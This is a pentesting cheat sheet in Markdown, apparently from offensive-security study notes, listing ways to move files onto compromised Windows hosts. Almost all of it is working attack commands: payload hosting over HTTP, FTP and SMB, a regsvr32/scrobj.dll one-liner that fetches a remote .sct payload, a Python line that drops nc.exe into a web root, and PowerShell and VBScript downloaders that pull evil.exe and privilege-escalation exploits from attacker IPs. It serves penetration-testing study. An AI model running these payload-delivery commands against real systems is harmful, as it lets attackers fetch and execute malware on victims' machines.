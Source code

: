 # File Transfers

### Python webserver host

`python3 -m http.server 80`

`python -m SimpleHTTPServer 80`

### Python ftp host

`python -m pyftpdlib -p 21`

### FTP non-interactive

`echo open 10.11.14.32 21> ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET ms15051.exe>> ftp.txt echo bye>> ftp.txt ftp -v -n -s:ftp.txt`

## SMB Server \(Impacket\) 

```bash
# mount current directory `.` to smb share name `a`
smbserver.py a .

# to copy eg. in windows
copy \\192.168.1.100\a\wce32.exe .

# execute exe using smb share
\\192.168.1.100\a\whoami.exe
```

## Python file transfer

`c:\python26\python.exe -c "from urllib import urlretrieve; urlretrieve('`[`http://10.11.0.69/nc.exe`](http://10.11.0.69/nc.exe)`', 'C:\Inetpub\wwwroot\nc.exe')"`

### Windows Server 1-liner

`regsvr32 /u /n /s /i:`[`http://192.168.1.10:443/payload.sct`](http://ip:port/payload.sct) `scrobj.dll`

## Powershell wget script

```bash
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1 
echo $file = "new-exploit.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

### VB downloader script

```bash
#Windows downloader script using VB
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# To Download using script
cscript wget.vbs http://10.11.0.5/37.exe evil.exe
```

### Apache Webserver

```bash
# Edit port used 'Listen <Port>'
vim /etc/apache2/ports.conf

# Create folder to share
mkdir /var/www/html/share

#chmod
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share

#move file to webserver root
mv /root/Desktop/evil.exe /var/www/html/share

#start 
service apache2 start
```



